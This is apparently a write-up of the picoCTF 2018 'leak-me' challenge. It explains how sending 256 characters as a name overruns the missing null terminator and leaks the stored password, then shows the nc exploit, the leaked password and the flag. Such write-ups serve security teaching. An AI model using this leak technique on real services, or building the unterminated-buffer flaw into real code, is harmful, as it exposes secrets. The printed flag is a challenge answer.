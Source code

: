 # leak-me (pwn, 200pts)

> Can you authenticate to this service and get the flag? Connect with nc 2018shell.picoctf.com 23685. Source.

Running [`file`](https://linux.die.net/man/1/file), we see this is a 32-bit ELF binary:

```sh
$ file auth
auth: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux
2.6.32, BuildID[sha1]=43b5daa6b94ef81ac231729a8852d3ff26d8f60c, not stripped
```

Mark the binary as executable and run it (you'll need to create `password.txt` and `flag.txt` files):

```sh
$ echo "thisisapassword" > password.txt
$ echo "picoCTF{flag}" > flag.txt
$ ./auth
What is your name?
test
Hello test,
Please Enter the Password.
thisisapassword
picoCTF{flag}
```

From this output we see that:

* We're asked for two inputs - a name and a password
* If we enter the correct password, the flag is printed 

Taking a look at the source code, we see three char arrays are defined:

```c
  char password[64];        // the real password
  char name[256];           // the name we input
  char password_input[64];  // the password we input
```

When the program reads our name, if there's a new line, it changes it to a null byte to indicate the end of the string.
The text `\nPlease Enter the Password.` is then appended to our name. Both of these points are interesting:

* If we enter exactly 256 characters, reading `name` as a string won't encounter a null byte so will continue reading
  into the `password` array, as this is directly above on the stack.
* [`strcat`](http://www.cplusplus.com/reference/cstring/strcat/) appends to the `name` array, so we could get away with
  less than 256 characters

```c
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }
  
  strcat(name, ",\nPlease Enter the Password.");
```

The real password is then read input the `password` char array and our name is printed to standard output:

```c
  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);
```

The important part here is that the real password is read *before* our name is printed, as this is why the exploit
prints the real password.

Connect to the server and send 256 characters as your name to leak the real password, then connect again using a shorter
name and the real password to get the flag:

```
$ python2 -c "print 'A'*256" | nc 2018shell.picoctf.com 23685
What is your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,a_reAllY_s3cuRe_p4s$word_a28d9d

Incorrect Password!

$ nc 2018shell.picoctf.com 23685
What is your name?
test
Hello test,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_a28d9d
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_ee6111c9}
```
